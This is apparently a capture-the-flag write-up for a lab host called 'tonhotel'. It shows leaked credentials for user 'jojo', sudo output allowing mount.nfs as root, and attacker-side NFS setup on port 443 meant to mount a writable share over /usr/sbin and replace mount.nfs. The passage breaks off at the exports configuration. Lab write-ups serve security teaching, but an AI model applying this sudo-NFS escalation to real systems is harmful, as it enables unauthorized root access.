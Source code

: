 We can see this on the picture:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702182020.png)

We got credentials for `jojo`:

```
jojo:kingofhellskitchen
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702182056.png)

If we check our sudo permissions, we notice this:

```
jojo@tonhotel:/tmp$ sudo -l
[sudo] password for jojo:
Matching Defaults entries for jojo on tonhotel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jojo may run the following commands on tonhotel:
    (root) /usr/sbin/mount.nfs
```


This allow us to mount a `NFS` share, by doing this, we can achieve root, we will basically mount a writable `NFS` over `/usr/sbin` and replace the `mount.nfs` file, on this way, we can achieve root, let's do it:

We need to install `nfs-kernel-server` and enable it:

```bash
sudo apt install -y nfs-kernel-server
sudo systemctl enable --now rpcbind nfs-server
```

First, let's create a directory on our vm:

```
mkdir /tmp/share
sudo chown nobody:nogroup /tmp/share
sudo chmod 777 /tmp/share
```

Now, modify `/etc/nfs.conf` with:

```
[nfsd]
port=443
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702190016.png)


We need to modify `/etc/exports` with:

```
/tmp/share *(rw,sync,no_subtree_check)
```
